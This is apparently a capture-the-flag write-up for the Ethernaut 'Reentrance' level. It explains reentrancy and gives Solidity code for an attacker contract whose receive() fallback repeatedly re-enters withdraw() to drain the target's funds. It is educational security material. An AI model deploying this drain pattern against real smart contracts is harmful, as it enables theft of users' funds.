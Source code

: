 > The goal of this level is for you to steal all the funds from the contract.


Ah, re-entrancy. If you're aware of the details of the DAO hack that happened back in 2016 it's pretty easy to wrap your head around how to win this one.

What's re-entrancy?
> In computing, a computer program or subroutine is called reentrant if it can be interrupted in the middle of its execution and then safely be called again ("re-entered") before its previous invocations complete execution.

The `Reentrance` contract only has one complex function, `withdraw()`, and this is almost certainly what we want to attack to drain the contract. Let's break down it's logic and see if we can find a re-entry point:
* `if(balances[msg.sender] >= _amount)` - the sender must have a balance >= what they're requesting to withdraw.
    * `msg.sender.call{value: _amount}("")`  - send funds to the `msg.sender` contract. Hmm...no function is called...could this trigger a fallback?
* `balances[msg.sender] -= amount` - after everything prior has finished executing, finally update the `msg.sender`'s balance.

Our path forward is clear. We create an contract with a malicious callback that re-enters `Reentrance.withdraw()` before it's ever able to update `balances`.

## Solution
1. Create a barebones version of the `Reentrance` contract in Remix. Also, create a `Reenter` contract which instantiates an instance of `Reentrace`.
```javascript
contract Reentrance {
  function donate(address _to) public payable {}
  function balanceOf(address _who) public view returns (uint balance) {}
  function withdraw(uint _amount) public {}
  receive() external payable {}
}

contract Reenter {
    // amount we'll donate/withdraw every time
    uint public amount = 1 ether;

    address ethernautAddress = <YOUR INSTANCE ADDRESS>;
    Reentrance public re = Reentrance(payable(ethernautAddress));
    ...
}
```
2. Add a function to donate to your balance on the Ethernaut contract.
```javascript
function selfDonate() public {
    re.donate{value: amount}(address(this));
}
```
3. Add our attacking functions
```javascript
// this will trigger our re-entrancy logic
// once called, the ethernaut contract will
// hit our receive fallback
function beginTheAssult() public {
    re.withdraw(amount);
}

receive() external payable {
    // if it's not empty, keep withdrawing
    if (address(ethernautAddress).balance >= amount) {
        re.withdraw(amount);
    }
}
```
4. Do the following steps
* deploy your contract
* `selfDonate()` funds
* `beginTheAssault()` to trigger our draining